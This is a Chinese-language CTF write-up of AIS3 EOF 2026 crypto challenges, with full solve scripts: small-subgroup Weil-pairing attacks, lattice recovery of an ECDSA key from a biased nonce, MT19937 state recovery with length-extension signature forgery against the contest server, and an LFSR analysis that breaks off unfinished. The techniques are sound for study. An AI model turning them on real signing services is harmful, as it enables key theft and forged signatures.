這次 AIS3 EOF 2026 Qualification 同時也是計算機安全的期末考，我的隊伍是 **StarMachine**，跟 Andromeda, Qwertypig, chenyanjun 一隊，我主要負責 crypto 的部份，但手癢寫了一點 web 跟 reverse，pwn 實在是太難了，我看了三題都寫不出來，只好放棄。

## Crypto

### catcat's message

#### 題目描述

題目給的 code 很醜，所以我先整理一下：

<Details summary="refactored.py">

```py
from sage.all import *
import secrets

with open('flag.txt', 'rb') as f:
    flag = f.read()

flag = [int(bit) for byte in flag for bit in f'{byte:08b}']

R = PolynomialRing(ZZ, names=('x',))
(x,) = R._first_ngens(1)

f1 = 3471086628063885446357238753610323531339793559544546903532909144431975428449306236097334672163550644000*x**7 + 84164703558004000847171599254942386241373795544353150531373272670049397760530800008840197737820366466346314691162*x**6 + 91064528951076613265720743351539296774527279629238715675150132217418711139411039580553128030185345691325519935046*x**5 + 31838373662325139580926902452637696183043785768442789736602748197181912878103291332207751350605297251672800447952 * \
    x**4 + 21725422740459928990591308588258432180565692590248212021408656855315251472837770646928856382097832397887844336884*x**3 + 232701688844828316746402724793237178717464441244532163700038748140038967163962591066546062836475323177856883965170 * \
    x**2 + 250210421739490121280267358806528070202074006488405548116408889541562281570437524908655234300295156558260644714790 * \
    x + 220273362144208970479265455330337458917043647417072292667607653673224970006747007341371609183229917395181118430820
f2 = 10413259884191656339071716260830970594019380678633640710598727433295926285347918708292004016490651932000*x**7 + 252494110674012002541514797764827158724121386633059451594119818010148193281592400026520593213461099399038944073486*x**6 + 14529160840260745786509496359724356787188326132801486485566133985535665069892295966690495950982676949536238346962*x**5 + 95515120986975418742780707357913088549131357305328369209808244591545738634309873996623254051815891755018401343856 * \
    x**4 + 65176268221379786971773925764775296541697077770744636064225970565945754418513311940786569146293497193663533010652*x**3 + 180776214508546762217902706989924469079606298223767170020347719086675964795206127649700412230279249284690008979158 * \
    x**2 + 233302413192532175819496609029797143533434993955387323269458143291245908014630929176027926621738749425901291228018 * \
    x + 143491234406688723416490898601225309678343916741387556923054435686233973323559376474177051270543031936592520011397

p = 258664426012969094010652733694893533536393512754914660539884262666720468348340822774968888139573360124440321458177
curve = EllipticCurve(GF(p), [0, 0, 0, 0, 1])
P1 = curve(211327896882745355133216154117765694506824267591963425810864360539127436927129408124317179524815263831669171942288,
           242000360178127454722920758782320325120065800315232786687003874687882586608857040803085327019415054542726981896082)
P2 = curve(141078002483297354166779897252895086829637396399741587968861330915310465563157775245215359678414439802307293763593,
           21987419692484616093788518727313616089990324856173653004512069981050648496581282307403640131128425072464960150591)


def encrypt(x1, x2, ctrl=0):
    u = secrets.randbelow(p)
    return (f1(x1) + (1 - ctrl) * u) * P1 + (f2(x2) + (ctrl) * u) * P2


print("P1:", hex(P1.xy()[0]))
print("P2:", hex(P2.xy()[0]))

for b in flag:
    r = secrets.randbelow(p)
    print(hex(encrypt(secrets.randbelow(p), r, ctrl=b ^ 1).xy()[0]))
    print(hex(encrypt(r, secrets.randbelow(p), ctrl=b ^ 0).xy()[0]))
```

</Details>

他給了一個橢圓曲線的自製加密系統，使用的曲線為：

$$
y^2 = x^3 + 1
$$

並把 flag 逐個 bit 加密。對於 flag 的每個 bit，會產生一個共享的隨機值 $r$，並輸出兩個點 $C_1$ 和 $C_2$。加密函數建立了如下形式的點：

$$
C = (f_1(x_1) + (1-b) \cdot u) P_1 + (f_2(x_2) + b \cdot u) P_2
$$

其中 $P_1, P_2$ 為公開基點，$f_1, f_2$ 為多項式，$u$ 為隨機遮罩，$b$ 為控制位元，控制哪個多項式會加上遮罩。

#### 分析與解法

這題的安全性仰賴於 ECDLP 的困難程度，事實上如果我們算出基點的 order：

```
P1.order() = 2^46 * 3 * 7 * 13 * 499 * 8444461749428370424248824938781546531375899335154063827935233455917409239041
```

太棒了，他包含大量的小質因數，所以我們可以把點投影到小子群中來秒解 DLP。分析一下當 flag 的每個 bit 跟 output 的關係，當 bit = 1：

$$
\begin{aligned} C_1 & = (f_1(\text{rand}) + u) P_1 + (f_2(r) + 0) P_2 \ C_2 & = (f_1(r) + 0) P_1 + (f_2(\text{rand}) + u) P_2 \end{aligned}
$$

所以可以拿到 $(f_1(r), f_2(r))$ 一組跟 $r$ 關聯的值，而當 bit = 0 時會拿到 $(f_1(\text{rand}), f_2(\text{rand}))$ 毫無關聯。

先選一個小質因數 $l$ 例如 499，把每個點投影到 order $l$ 的子群中：

$$
C' = \frac{order(P_1)}{l} \cdot C
$$

接著 Weil pairing 可以幫我們拿出係數，對點 $C = a P_1 + b P_2$，我們可以計算：

$$
e(C, P_1) = e(a P_1, P_1) + e(b P_2, P_1) = e(P_2, P_1)^b
$$

令 $w = e(P_2, P_1)$，瞬間變成 $w^b = X = e(C, P_1) \pmod{l}$ 的 DLP 問題，可以直接暴力破解出來。

所以現在對於每一個 flag bit 都會算出一組係數 $a, b$，其中有可能是 $(f_1(r), f_2(r))$ 代表 bit = 1，或是 $(f_1(\text{rand}), f_2(\text{rand}))$ 代表 bit = 0。只要爆搜看是否存在 $r \in [0, l - 1]$ 使得：

$$
\begin{aligned} f_1(r) & \equiv a \pmod{l} \\ f_2(r) & \equiv b \pmod{l} \end{aligned}
$$

可以試好幾個小質因數，如果存在這樣的 $r$ 就代表高機率 bit = 1，否則 bit = 0。

<Details summary="solve.py">

```py
from sage.all import *
import re

p = 258664426012969094010652733694893533536393512754914660539884262666720468348340822774968888139573360124440321458177
E = EllipticCurve(GF(p), [0, 0, 0, 0, 1])
R = PolynomialRing(GF(499), names=('x',))
(x,) = R._first_ngens(1)


def get_polys(modulus):
    R_ZZ = PolynomialRing(ZZ, names=('x',))
    (x,) = R_ZZ._first_ngens(1)

    f1 = 3471086628063885446357238753610323531339793559544546903532909144431975428449306236097334672163550644000*x**7 + 84164703558004000847171599254942386241373795544353150531373272670049397760530800008840197737820366466346314691162*x**6 + 91064528951076613265720743351539296774527279629238715675150132217418711139411039580553128030185345691325519935046*x**5 + 31838373662325139580926902452637696183043785768442789736602748197181912878103291332207751350605297251672800447952 * \
        x**4 + 21725422740459928990591308588258432180565692590248212021408656855315251472837770646928856382097832397887844336884*x**3 + 232701688844828316746402724793237178717464441244532163700038748140038967163962591066546062836475323177856883965170 * \
        x**2 + 250210421739490121280267358806528070202074006488405548116408889541562281570437524908655234300295156558260644714790 * \
        x + 220273362144208970479265455330337458917043647417072292667607653673224970006747007341371609183229917395181118430820
    f2 = 10413259884191656339071716260830970594019380678633640710598727433295926285347918708292004016490651932000*x**7 + 252494110674012002541514797764827158724121386633059451594119818010148193281592400026520593213461099399038944073486*x**6 + 14529160840260745786509496359724356787188326132801486485566133985535665069892295966690495950982676949536238346962*x**5 + 95515120986975418742780707357913088549131357305328369209808244591545738634309873996623254051815891755018401343856 * \
        x**4 + 65176268221379786971773925764775296541697077770744636064225970565945754418513311940786569146293497193663533010652*x**3 + 180776214508546762217902706989924469079606298223767170020347719086675964795206127649700412230279249284690008979158 * \
        x**2 + 233302413192532175819496609029797143533434993955387323269458143291245908014630929176027926621738749425901291228018 * \
        x + 143491234406688723416490898601225309678343916741387556923054435686233973323559376474177051270543031936592520011397

    R_mod = PolynomialRing(GF(modulus), names=('x',))
    f1 = R_mod(f1)
    f2 = R_mod(f2)
    return f1, f2


with open('output.txt', 'r') as f:
    content = re.findall(r'0x[0-9a-f]+', f.read())

P1 = E.lift_x(Integer(content[0]))
P2 = E.lift_x(Integer(content[1]))

ord_P1 = P1.order()

primes = [499, 13, 7]
prime_data = []

for ell in primes:
    M = ord_P1 // ell
    G1 = M * P1
    G2 = M * P2
    w = G1.weil_pairing(G2, ell)

    if w == 1:
        print(f"skipping prime {ell}, pairing is trivial")
        continue

    f1, f2 = get_polys(ell)

    valid_pairs = set()
    for r in range(ell):
        valid_pairs.add((f1(r), f2(r)))

    w_powers = {}
    curr = w.parent()(1)
    for i in range(ell):
        w_powers[curr] = i
        curr *= w

    prime_data.append({
        'ell': ell,
        'M': M,
        'G1': G1,
        'G2': G2,
        'w': w,
        'w_powers': w_powers,
        'valid_pairs': valid_pairs
    })


points = content[2:]
flag_bits = []

for i in range(0, len(points), 2):
    x1 = Integer(points[i])
    x2 = Integer(points[i+1])

    Q1_base = E.lift_x(x1)
    Q2_base = E.lift_x(x2)

    is_one = False

    # Try all 4 sign combinations
    for s1 in [1, -1]:
        for s2 in [1, -1]:
            curr_Q1 = s1 * Q1_base
            curr_Q2 = s2 * Q2_base

            consistent_all = True
            for data in prime_data:
                ell = data['ell']
                M = data['M']
                G1 = data['G1']
                G2 = data['G2']
                w_powers = data['w_powers']
                valid_pairs = data['valid_pairs']

                q1 = M * curr_Q1
                q2 = M * curr_Q2

                e1 = q1.weil_pairing(G1, ell)
                e2 = q2.weil_pairing(G2, ell)

                val_b1_raw = w_powers.get(e1)
                val_a2 = w_powers.get(e2)

                if val_b1_raw is None or val_a2 is None:
                    consistent_all = False
                    break

                val_b1 = (-val_b1_raw) % ell

                if (val_a2, val_b1) not in valid_pairs:
                    consistent_all = False
                    break

            if consistent_all:
                is_one = True
                break
        if is_one:
            break

    if is_one:
        flag_bits.append(1)
    else:
        flag_bits.append(0)

flag_bytes = bytearray()
for i in range(0, len(flag_bits), 8):
    byte_bits = flag_bits[i:i+8]
    byte_val = 0
    for bit in byte_bits:
        byte_val = (byte_val << 1) | bit
    flag_bytes.append(byte_val)

print(flag_bytes.decode())
```

</Details>

#### Flag



`EOF{cats_dont_like_you_for_breaking_their_meowderful_scheme_...🐈⚔🐈}`

flag 有表情符號好解

### Still Not Random

看到這題的第一個想法是，好爽這個跟作業幾乎一樣，~~真的沒有洩題疑慮嗎~~

#### 題目描述

題目給了一個 Python script，用 P-384 曲線上的自製 ECDSA 簽章簽了 4 個訊息。我們有簽章跟一個用 AES-CTR 加密的 flag。加密用的 key 是簽章私鑰 `sk` 的低 128 bits。

#### 分析與解法

核心漏洞在 nonce 生成函數：

```python
def sign(sk: int, msg: bytes, *, curve=P384, hashfunc=sha256) -> tuple[int, int]:
    key = hashfunc(str(sk).encode()).digest()
    k = int.from_bytes(key + hmac.new(key, msg, hashfunc).digest()) % curve.q
    # ...
```

也就是說

$$
k = \text{int}(\text{key} \parallel \text{HMAC(key, msg)}) \pmod q
$$

這裡的 `key` 是從 `sk` 來的，對所有簽章都一樣。HMAC 部分則隨訊息改變。因為 P-384 的 order $q$ 大約是 $2^{384}$，而構造出來的整數是 512 bits，所以 $k = X \pmod q$ 等價於 $k = X - m \cdot q$。因為 $X$ 的高 256 bits 是固定的，所以 $m$ 對所有簽章來說應該是常數（或頂多差 1）。

所以我們可以近似：

$$
k_i - k_j \approx h_i - h_j
$$

$$
|k_i - k_j| < 2^{256}
$$

這比 $q \approx 2^{384}$ 小很多，正是 Hidden Number Problem 的情況，可以用 Lattice Attack 來打。簽章方程式是：

$$
s_i \equiv k_i + sk \cdot e_i \pmod q
$$

整理得

$$
k_i \equiv s_i - sk \cdot e_i \pmod q
$$

考慮兩個簽章的差：

$$
k_i - k_0 \equiv (s_i - s_0) - sk \cdot (e_i - e_0) \pmod q
$$

令 $\Delta k_i = k_i - k_0$, $\Delta s_i = s_i - s_0$, $\Delta e_i = e_i - e_0$，得到：

$$
sk \cdot \Delta e_i - \Delta s_i \equiv -\Delta k_i \pmod q
$$

我們知道 $|\Delta k_i| < 2^{256}$。構造矩陣：

$$
\begin{pmatrix}
q & 0 & 0 \\
0 & q & 0 \\
0 & 0 & q \\
\Delta e_1 & \Delta e_2 & \Delta e_3
\end{pmatrix}
$$

目標向量是 $U = (\Delta s_1, \Delta s_2, \Delta s_3)$。我們想找到一個向量 $V = (sk \cdot \Delta e_1, sk \cdot \Delta e_2, sk \cdot \Delta e_3)$ 使得 $V \approx U$。

$|V - U| < 2^{256}$ 很小，用 SageMath 的 `closest_vector` 對 LLL-reduced basis 做，就可以找到 $V$。找到 $V$ 就能算回 $sk$：

$$
v_1 \equiv sk \cdot \Delta e_1 \pmod q \implies sk \equiv v_1 \cdot \Delta e_1^{-1} \pmod q
$$

算出 $sk$ 後，算出 AES key：

```python
key = (int(sk) & ((1 << 128) - 1)).to_bytes(16, 'big')
```

然後解出 flag。最後一個問題是 `closest_vector` 是近似解，我們需要爆搜附近的幾個向量來找到正確的 $sk$，取演算法得到的向量 $v$，對 LLL 基底組合出附近的向量試試看：

$$
v' = v + \sum_i c_i b_i, \quad c_i \in [-2, 2]
$$

嘗試所有組合直到找到正確的 flag。

<Details summary="solve.py">

```py
import hmac
from hashlib import sha256
from Crypto.Cipher import AES
from sage.all import EllipticCurve, GF, Matrix, ZZ, vector, inverse_mod
from sage.modules.free_module_integer import IntegerLattice

# ---------- P-384 params ----------
p = 39402006196394479212279040100143613805079739270465446667948293404245721771496870329047266088258938001861606973112319
a = -3
b = 27580193559959705877849011840389048093056905856361568521428707301988689241309860865136260764883745107765439761230575
q = 39402006196394479212279040100143613805079739270465446667946905279627659399113263569398956308152294913554433653942643
Gx = 26247035095799689268623156744566981891852923491109213387815615900925518854738050089022388053975719786650872476732087
Gy = 8325710961489029985546751289520108179287853048861315594709205902480503199884419224438643760392947333078086511627871

curve = EllipticCurve(GF(p), [a, b])
G = curve(Gx, Gy)


def p2i(P):
    return int(P[0]) * p + int(P[1])


# ---------- given data ----------
msgs = [
    b"https://www.youtube.com/watch?v=LaX6EIkk_pQ",
    b"https://www.youtube.com/watch?v=wK4wA0aKvg8",
    b"https://www.youtube.com/watch?v=iq90nHs3Gbs",
    b"https://www.youtube.com/watch?v=zTKADhU__sw",
]

sigs = [
    (317707421133410288073354603009480426136391906002873302709570879761947103070512898051132583840618463139472027601216698251294206460344755339051109898589809987983731707077909099505833365567522347006453766545663380230105595126817790425,
     25185752159924706126981435669717936861361993674900106138337831137838509453749313533989197233649309651483579988978205),
    (417548456675579988606680466439690234874946492911623920447331037240230655879606626325624623314611471522814787475988129078726743347417903386362824681134780863810523742180718053363084828145812067731683272119151061828749117659255650820,
     27618563118772187320593702066291845973666620541831283288991142064228070314197536489147588491763843793593821643513457),
    (703771273054730080235579285501232710659154148145979519264450072512823561624248636822569827736905476306443746390214567198923437156846958456303186787370323078966806939434118158768394748234214487029382926999880135374613932395712372460,
     27052092405825396792237011211691900251888872753276208811631357208317438773416505653305767076226992282260977625878007),
    (821717323558426535455119744526279609022144869806906586662554363968363839151910768914318502227461974453838258550953434850776924606792184210954238562503515009237179979646111655773804054528212491391076376250546737439142144165942539844,
     28870411728276849847003745583242490365442899058004875752358198407125701328587711166784961247940279464305857022011977),
]

ct = b"iXm\x982\xc5\xf23\x85\x88\x91\x0c\x7f\xdc\x1b,\x1b\x82\x9d\xcd\x00 BWn\xad\n\xc3`\xe7\x8e\xfc`%\x9cQ\x12E\x97\x97\xa5\xd5t\x8b\x87v\xb4\xcf\x8d"

# ---------- compute e_i ----------
es, ss, rs = [], [], []
for (r, s), msg in zip(sigs, msgs):
    e = int.from_bytes(hmac.new(r.to_bytes(1337, "big"), msg, sha256).digest(), "big") % q
    es.append(e)
    ss.append(s)
    rs.append(r)

# differences vs index 0
t = [(es[0] - es[i]) % q for i in range(1, 4)]  # t1,t2,t3
u = [(ss[0] - ss[i]) % q for i in range(1, 4)]  # u1,u2,u3

t1, t2, t3 = t
u1, u2, u3 = u

# ---------- build lattice for CVP ----------
# L = < (q,0,0), (0,q,0), (0,0,q), (t1,t2,t3) >
B = Matrix(ZZ, [
    [q, 0, 0],
    [0, q, 0],
    [0, 0, q],
    [t1, t2, t3],
]).LLL()

# drop zero rows (rank 3)
rows = [row for row in B.rows() if not row.is_zero()]
Basis = Matrix(ZZ, rows)
Lat = IntegerLattice(Basis)

target = vector(ZZ, [u1, u2, u3])
v0 = Lat.closest_vector(target)

# ---------- local search around v0 ----------


def sk_from_v(v):
    # use first coordinate; t1 must be invertible mod q (almost always)
    return int((v[0] * inverse_mod(t1, q)) % q)


def verify_sk(sk):
    # reproduce r for message 0
    key_hash = sha256(str(sk).encode()).digest()
    k = int.from_bytes(key_hash + hmac.new(key_hash, msgs[0], sha256).digest(), "big") % q
    R = k * G
    return p2i(R) == rs[0]


def decrypt_flag(sk):
    key = (sk & ((1 << 128) - 1)).to_bytes(16, "big")  # python default in challenge is big
    nonce, ciphertext = ct[:8], ct[8:]
    cipher = AES.new(key, AES.MODE_CTR, nonce=nonce)
    return cipher.decrypt(ciphertext)


# search radius (small is usually enough)
coeff_range = range(-2, 3)

# use up to 3 basis vectors (basis is 3x3 after zero-row removal)
basis_vecs = [vector(ZZ, Basis[i]) for i in range(Basis.nrows())]
if len(basis_vecs) > 3:
    basis_vecs = basis_vecs[:3]

cands = []
for c0 in coeff_range:
    for c1 in coeff_range:
        for c2 in coeff_range:
            dv = c0*basis_vecs[0] + c1*basis_vecs[1] + c2*basis_vecs[2]
            v = v0 + dv
            sk = sk_from_v(v)
            if sk in cands:
                continue
            cands.append(sk)
            if verify_sk(sk):
                pt = decrypt_flag(sk)
                print("Found sk =", sk)
                print("Flag:", pt)
                exit()

print("Oh no, flag not found :(")
```

</Details>

#### Flag



`EOF{just_some_small_bruteforce_after_LLL}`

### dogdog's Proof

#### 題目描述

這題是 server 題，服務提供三個功能：

1. 取得亂數 (`wowoof`)
2. 簽章 (`wowooF`)
3. 驗證 (`wowoOf`)

使用 secp256r1 (P-256) 的 ECDSA，並且 nonce $k$ 來自 `random.getrandbits(255)`，訊息雜湊為 `SHA-256(salt || msg)`，驗證時如果訊息包含 `i_am_the_king_of_the_dog` 且簽章合法，就會印出 flag。

#### 分析與解法

第一個很容易發現的洞是 nonce $k$ 是用 python 內建的 random 生成，所以第一步肯定是想辦法還原 MT19937 的 state。我們可以用 `wowoof` 無限取得 `getrandbits(134) ^ getrandbits(134)`，然後切成 4 \* 32 + 6 bits 的 chunk，前面的部份可以直接 untemper，後面 6 bits 拿來做 Z3 symbolic solving，還原出完整的 MT19937 state。

ECDSA 的 nonce 可預測後，私鑰 $d$ 就很好算了，簽章公式為：

$$
s \equiv k^{-1}(z + r d) \pmod n
$$

對同一個訊息簽兩次得到：

$$
\begin{cases}
z \equiv s_1 k_1 - r_1 d \\
z \equiv s_2 k_2 - r_2 d
\end{cases}
$$

相減消去 $z$ 直接解出私鑰 $d$：

$$
d \equiv (s_1 k_1 - s_2 k_2)\cdot (r_1 - r_2)^{-1} \pmod n
$$

接下來要偽造簽章，簽章用

```python
z = sha256(salt + msg)
```

並且禁止在 msg 裡出現 `i_am_the_king_of_the_dog`，但因為 salt 固定，且用的是裸 SHA256，所以可以做 Length Extension Attack。

我們先用合法訊息 `msg1` 取得簽章 `(r1, s1)`，然後偽造訊息 `msg2 = msg1 || padding || extra`，計算出新的雜湊值 `z2`，然後計算簽章傳給 server 就拿到 flag 了。

<Details summary="solve.py">

```py
from pwn import *
from z3 import *
from tinyec import registry
import hashpumpy
import random
import time

# =========================================================
# 0) Config
# =========================================================
context.log_level = "info"
curve = registry.get_curve("secp256r1")
n = curve.field.n
G = curve.g

# =========================================================
# 1) Untemper utils (32-bit MT19937 output)
# =========================================================


def recover_left_shift_mask(y, shift, mask):
    x = y
    for _ in range(32 // shift + 1):
        x = y ^ ((x << shift) & mask)
    return x


def recover_right_shift(y, shift):
    x = y
    for _ in range(32 // shift + 1):
        x = y ^ (x >> shift)
    return x


def untemper(y):
    y &= 0xFFFFFFFF
    y = recover_right_shift(y, 18)
    y = recover_left_shift_mask(y, 15, 0xEFC60000)
    y = recover_left_shift_mask(y, 7, 0x9D2C5680)
    y = recover_right_shift(y, 11)
    return y & 0xFFFFFFFF


# =========================================================
# 2) Compact Hybrid MT19937 solver (Z3)
# =========================================================
N, M = 624, 397
MATRIX_A = 0x9908B0DF
UM = 0x80000000
LM = 0x7FFFFFFF


def temper_z3(y):
    y = y ^ LShR(y, 11)
    y = y ^ ((y << 7) & 0x9D2C5680)
    y = y ^ ((y << 15) & 0xEFC60000)
    y = y ^ LShR(y, 18)
    return y


class MTHybrid:
    def __init__(self):
        self.solver = Solver()
        self.S = []  # lazy BitVec list

    def var(self, i):
        while len(self.S) <= i:
            self.S.append(BitVec(f"S_{len(self.S)}", 32))
        return self.S[i]

    def add_recurrence(self, upto):
        # state[k] = state[k-624+397] ^ twist(state[k-624], state[k-623])
        for k in range(N, upto + 1):
            s_prev = self.var(k - N)
            s_next = self.var(k - N + 1)
            s_mid = self.var(k - N + M)

            y = (s_prev & UM) | (s_next & LM)
            twist = LShR(y, 1)
            twist = If((y & 1) == 1, twist ^ MATRIX_A, twist)

            self.solver.add(self.var(k) == (s_mid ^ twist))

    def solve(self, full_constraints, partial_constraints, max_idx, want=624):
        self.add_recurrence(max_idx)

        # Full (untempered) constraints: S[a] ^ S[b] == val32
        for a, b, val32 in full_constraints:
            self.solver.add((self.var(a) ^ self.var(b)) == (val32 & 0xFFFFFFFF))

        # Partial constraints: top6bits(temper(S[a]^S[b])) == leak
        for a, b, top6 in partial_constraints:
            x = self.var(a) ^ self.var(b)
            self.solver.add(LShR(temper_z3(x), 26) == (top6 & 0x3F))

        t0 = time.time()
        if self.solver.check() != sat:
            return None
        log.success(f"Z3 solved in {time.time() - t0:.2f}s")
        m = self.solver.model()
        return [m[self.var(i)].as_long() for i in range(want)]

# =========================================================
# 3) Exploit
# =========================================================


def build_constraints(samples):
    """
    Each sample is:
        getrandbits(134) ^ getrandbits(134)
    One getrandbits(134) consumes 5 MT outputs (32*4 + 6 bits).
    XOR of two => uses 10 MT outputs per sample.
    """
    full = []
    partial = []
    idx = 0
    for real_val in samples:
        # chunks 0..3 are full 32-bit
        for i in range(4):
            chunk = (real_val >> (32 * i)) & 0xFFFFFFFF
            diff = untemper(chunk)
            full.append((idx + i, idx + 5 + i, diff))

        # chunk 4: only top 6 bits (since 134 = 128 + 6)
        top6 = (real_val >> 128) & 0x3F
        partial.append((idx + 4, idx + 9, top6))

        idx += 10

    max_idx = idx - 1
    return full, partial, max_idx


def get_ticket_samples(io, count):
    samples = []
    io.recvuntil(b"option > ")
    for _ in range(count):
        io.sendline(b"wowoof")
        line = io.recvline().decode()
        # "WooFf wOOF {num}'f 🐕!"
        num = int(line.split("wOOF ")[1].split("'f")[0])
        samples.append(num)
        io.recvuntil(b"option > ")
    return samples


def sync_rng(io, sample_count=300):
    log.info(f"Phase 1: collecting {sample_count} samples")
    samples = get_ticket_samples(io, sample_count)

    log.info("Building constraints")
    full, partial, max_idx = build_constraints(samples)

    log.info("Solving MT19937 state (hybrid)")
    solver = MTHybrid()
    state624 = solver.solve(full, partial, max_idx=max_idx)
    if not state624:
        raise RuntimeError("Z3 UNSAT (try more samples)")

    # setstate expects: (version, (624 state words + index), gauss)
    random.setstate((3, tuple(state624 + [0]), None))

    # fast-forward local RNG by same number of calls server made during sampling
    for _ in range(sample_count):
        _ = random.getrandbits(134) ^ random.getrandbits(134)

    # verify sync
    log.info("Verifying sync")
    io.sendline(b"wowoof")
    line = io.recvline().decode()
    real = int(line.split("wOOF ")[1].split("'f")[0])
    pred = random.getrandbits(134) ^ random.getrandbits(134)
    io.recvuntil(b"option > ")

    if real != pred:
        raise RuntimeError(f"Sync mismatch: real={real}, pred={pred}")
    log.success("✅ RNG sync verified")


def sign_once(io, msg_bytes):
    io.sendline(b"wowooF")
    io.sendline(msg_bytes.hex().encode())
    # server consumes k = getrandbits(255) exactly once here
    k = random.getrandbits(255)
    io.recvuntil(b"wwwooOf: ")
    r = int(io.recvline().strip(), 16)
    io.recvuntil(b"wwWooOf: ")
    s = int(io.recvline().strip(), 16)
    io.recvuntil(b"option > ")
    return k, r, s


def main():
    if args.REMOTE:
        io = remote('chals1.eof.ais3.org', 19081)
    else:
        io = process(["python3", "chal.py"])

    # --- Phase 1: sync MT RNG ---
    sync_rng(io, sample_count=300)

    # --- Phase 2: recover private key from two sigs on same msg ---
    log.info("Phase 2: recovering ECDSA private key")
    msg_base = b"A" * 16
    k1, r1, s1 = sign_once(io, msg_base)
    k2, r2, s2 = sign_once(io, msg_base)

    d = ((s1 * k1 - s2 * k2) * pow(r1 - r2, -1, n)) % n
    # z = (s*k - r*d) mod n (with overwhelming probability equals raw SHA256 digest)
    z_base = (s1 * k1 - r1 * d) % n
    log.success(f"Recovered d = {hex(d)}")

    # --- Phase 3: length extension + forge signature ---
    log.info("Phase 3: length extension + forge")
    target = b"i_am_the_king_of_the_dog"

    old_hash_hex = f"{z_base:064x}"
    new_hash_hex, new_msg = hashpumpy.hashpump(old_hash_hex, msg_base, target, 64)
    z_forged = int(new_hash_hex, 16) % n

    k_forge = 123456
    r_forge = (k_forge * G).x
    s_forge = (pow(k_forge, -1, n) * (z_forged + r_forge * d)) % n

    io.sendline(b"wowoOf")
    io.sendline(hex(r_forge).encode())
    io.sendline(hex(s_forge).encode())
    io.sendline(new_msg.hex().encode())

    io.interactive()


if __name__ == "__main__":
    main()
```

</Details>

#### Flag



`EOF{once_a_wise_dog_said_:_hi_._but_he_didn't_know_why_:D}`

### LOL

#### 題目描述

題目做了一個自製的 LFSR 疊 LFSR 的隨機數產生器 LOL，然後先輸出 42 次 `lol.rand()` 當作 `gift`，再用下一次 `lol.rand()` 當作 AES-CTR 的 key，去加密 flag，印出 `gift` 與 `ct`。

所以我們的目標是：從 `gift` 還原內部參數或預測下一次輸出，然後推出第 43 次輸出 `lol.rand()`（AES key），並解密 `ct` 得到 flag。

#### 分析與解法

LFSR 就是正常的 LFSR，而 LOL 有：

- $n = 16$ 個 LFSR（每個 state 是 16 bytes = 128 bits）
- 同一個 mask $P(x)$
- 16 個 `taps[i]`，每個是 0 ~ 255 的 byte
- 每次輸出一個 128-bit 整數 $x$

```python
def clock(self):
    x = 0
    for t, l in zip(self.taps, self.lfsrs):
        for _ in range(t):
            l.clock()
        x ^= l.state
    self.lfsrs = [LFSR(self.lfsrs[0].mask, x)] + self.lfsrs[:-1]
    return x
```

對於每一輪 k：

1. 對第 i 個 LFSR，先 clock `taps[i]` 次
1. 把所有 LFSR 的新 state XOR 起來當作輸出 $x_k$
1. 右移 LFSR 陣列，並把 $x_k$ 放到第一個 LFSR

我們可以把 clock $t$ 次視為在環 $\mathbb{F}_2[X]/(P)$ 裡乘上 $X^t$。設第 $k$ 輪開始時第 $i$ 個狀態為 $S_i^{(k)}$，則輸出：

$$
x_k=\sum_{i=0}^{15} S_i^{(k)}X^{t_i}
$$

又因為更新會把輸出塞回去並右移，可以推出：

$$
S_i^{(k)} = x_{k-1-i}\cdot X^{\sum_{j=0}^{i-1}t_j}
$$

代回去，得到對輸出序列的關係：

$$
x_k+\sum_{i=0}^{15}x_{k-1-i}\cdot X^{T_i}\equiv 0 \mod{P(X)}
$$

其中 $T_i = \sum_{j=0}^{i}t_j$。也就是，$x_k$ 是一個線性遞迴，但係數是 $X^{T_i}$，由 taps 決定。

如果某個式子在 $\mathbb{F}_2[X]/(P)$ 裡等於 0，就等價於在 $\mathbb{F}_2[X]$ 裡被 $P(X)$ 整除。我們從最後一個 tap 開始剝：每一步把遞迴整理成

$$
D_k(t)=D_k^A + X^{R+t}\cdot D_k^B
$$

其中 $D_k^A,D_k^B$ 可用輸出組矩陣取 determinant 算出。用兩個視窗 $k, k+1$ 做

$$
g(t)=\gcd(D_k(t),D_{k+1}(t))
$$

掃 $t\in[0,255]$ 取 $\deg g(t)$ 最大的就是正確 tap（猜對時 gcd 會長出 degree 128 的共同因子 $P$）。找到 tap 後更新累積 shift $R$ 與輔助量 $z_k$，繼續解下一個 tap 直到 16 個都找到。

<Details summary="recover_taps.py">

```py
from sage.all import *


